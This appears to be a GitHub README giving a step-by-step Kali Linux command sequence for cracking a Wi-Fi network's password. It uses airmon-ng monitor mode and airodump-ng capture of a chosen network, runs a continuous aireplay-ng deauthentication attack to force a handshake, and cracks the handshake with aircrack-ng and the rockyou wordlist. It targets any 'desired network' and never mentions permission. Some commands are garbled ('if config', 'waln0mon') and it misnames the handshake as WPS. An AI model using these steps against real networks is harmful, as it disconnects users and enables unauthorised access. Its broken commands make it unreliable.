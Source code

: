 # WIFI-CRACK-USING-KALI-LINUX

# NOTE:
This technique will search the password after taking WPS handshake. All commands should be run on kali linux terminal.
The rockyou.txt file contains a large amount of passwords.

## COMMANDS:

>*open terminal and type the directory*
- /usr/share/wordlists/rockyou.txt.gz
>*ls command will show the files and folders in directory*
- ls
>*unzip the rockyou file using command*
- gunzip rockyou.txt.gz

>*open new terminal*
- if config
- airmon-ng start wlan0
- airmon-ng check kill
- airodump-ng waln0mon
>*shows network around you and when you see your desired network you can stop searching using ctril+c*

- airodump-ng -w test -c *target-network's-channel* --bssid *target-network's-mac-address* waln0mon

>*open new terminal*
- aireplay-ng -0 0 -a *target-network's-mac* wlan0mon

>*go to the window where you extract the rockyou file*
- aircrack-ng -w rockyou.txt test-01.cap

## NOTE:
remember to replace the *target-network's-channel* and *target-network's-mac-address* with your desired network info.
